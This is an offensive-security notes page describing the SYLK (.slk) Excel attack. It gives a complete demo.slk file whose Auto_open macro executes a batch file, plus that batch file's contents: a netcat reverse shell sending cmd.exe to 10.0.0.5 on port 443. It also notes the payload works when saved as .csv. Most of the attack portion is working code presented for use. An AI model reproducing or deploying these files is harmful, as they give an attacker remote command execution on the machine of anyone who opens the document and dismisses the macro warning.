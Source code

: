 # ⭕ .SLK Excel

{% embed url="https://www.avanan.com/blog/sylkin-attack-bypassing-microsoft-365-security-risking-users" %}

{% embed url="https://youtu.be/xY2DIRfqNvA" %}

{% embed url="http://www.irongeek.com/i.php?page=videos%2Fderbycon8%2Ftrack-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen" %}



Create an new text file, put the the below code and save it as .slk file:

{% code title="demo.slk" %}
```vba
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
{% endcode %}

![](<../../.gitbook/assets/image (52) (1) (1) (1).png>)

Note that the shell.cmd refers to a simple nc reverse shell batch file:

{% code title="c:\shell.cmd" %}
```
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Once the macro warning is dismissed, the reverse shell pops as expected:

![](<../../.gitbook/assets/image (11) (1) (1).png>)

Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

Note that the payload file could be saved as a .csv - note the additional warning though:

![](<../../.gitbook/assets/image (34) (1) (1).png>)

